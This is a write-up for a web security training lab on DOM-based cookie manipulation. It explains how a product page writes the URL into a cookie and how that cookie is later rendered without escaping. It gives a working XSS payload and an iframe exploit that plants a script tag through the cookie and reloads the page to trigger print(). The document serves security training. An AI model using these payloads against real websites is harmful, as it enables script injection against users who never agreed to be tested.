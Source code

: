 Title: DOM-based cookie manipulation
Level: PRACTITIONER
Desc: This lab demonstrates DOM-based client-side cookie manipulation. To solve this lab, inject a cookie that will cause XSS on a different page and call the print() function. You will need to use the exploit server to direct the victim to the correct pages. 
Theory: The document.cookie sink can lead to DOM-based cookie-manipulation vulnerabilities. 

# Walkthrough: 
On the page `https://0ac8006104847ea580d4b20d003f0063.web-security-academy.net/product?productId=1` I can see code: 

```
 <script>
 document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
 </script>
```
This code gives possibility to add to cookie values from url. We control value of cookie.
<img width="1132" height="574" alt="image" src="https://github.com/user-attachments/assets/6158e2be-d2e9-4aff-b36d-c8c624ed07bc" />




I found out, that we can manually add below payload to the cookie and when we click button: "Last viewed product" we can see our XSS executed.
`'><script>alert(1)</script><a href='`

Now we need to send iframe to the victim, whichc has XSS payload as a part of the url, then after loading this value goes to the source code of "Last viewed product" and we have XSS:

`<iframe src="https://0ac8006104847ea580d4b20d003f0063.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://0ac8006104847ea580d4b20d003f0063.web-security-academy.net';window.x=1;">`

section `onload="if(!window.x)this.src='https://0ac8006104847ea580d4b20d003f0063.web-security-academy.net';window.x=1;` is to make a reload of page.

